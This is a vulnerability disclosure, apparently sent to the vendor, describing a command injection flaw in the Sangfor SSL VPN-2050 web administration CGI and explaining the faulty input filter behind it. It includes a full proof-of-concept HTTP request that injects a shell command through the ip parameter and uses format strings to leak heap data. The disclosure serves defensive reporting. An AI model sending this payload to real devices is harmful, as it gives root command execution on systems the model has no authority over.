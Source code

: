 Hi,

I am eack from Codesafe Team of Legendsec at Qi'anxin Group.
Recently, I found that the Sangfor SSL VPN-2050 has a command injection vulnerability. The attacker can obtain the root shell and execute arbitrary commands. The tested device firmware version is M7.6.3. The vulnerability details are as follows:
This vulnerability is due to a logic vulnerability in the filter function, resulting in command execution of the ip and port parameters.
The vulnerability exists in gcs_webui.cgi, which corresponds to the IP address and port options under "System Maintenance - Proxy Settings" on the administration page.

Vulnerability code:
![1.PNG](http://security.sangfor.com.cn:8000/ueditor/php/upload/image/20190627/1561622195475389.png)
Guess the developer wants to filter the ip and port parameters by the str_filter function. In the first if judgment, the str_filter function needs to return 0 to continue the following processing of the port parameter. The implementation of the str_filter function is as follows:
![2.PNG](http://security.sangfor.com.cn:8000/ueditor/php/upload/image/20190627/1561622267799970.png)
In this while loop, v2 does not play any role, the range of filtering characters is also problematic, resulting in as long as the number and '/' will fall into the while loop, always write data to a1, but if it is other characters For example, if the letter, '%', etc., it will return 0, but this just meets the judgment of if, and can continue the processing. This logic, just enough to constantly cover the address on the heap, leaks the data on the heap through formatted strings such as %s and %x.
The last parameter is spliced, and the command is executed by the call_DoShellProxy function to call popen.

The payload of the vulnerability recurrence is as follows:
Command injection through the ip parameter on port 1000:

GET /cgi-bin/gcs_webui.cgi?requestarg=2&requestname=17&csrf=119a080699cc70839b6c8b434bcca478&enabled=1&ip=10.10.10.1';ping%2010.92.2.110;echo'&port=1111111%s%x&auth=2&name=aaaaaaa%s&passwd=1230000000000000000000000000000000000000 HTTP/1.1
Host: 10.92.2.17:1000
Accept: /
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.100 Safari/537.36
Referer: http://10.92.2.17:1000/html/gcs_proxyset.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: language=zh_CN; PHPSESSID=e116e0e2c17bed877d1f825a77e6babf; sinfor_session_id=W38F984ADB3BE348FEF4EE72B628B3C6; x-anti-csrf-gcs=A160FB2300484911
Connection: close

Under the terminal you can see that the command is executed:
![5.PNG](http://security.sangfor.com.cn:8000/ueditor/php/upload/image/20190627/1561626103122469.png)
You can also see that the command is executed by capturing the packet:
![4.PNG](http://security.sangfor.com.cn:8000/ueditor/php/upload/image/20190627/1561624621269779.png)
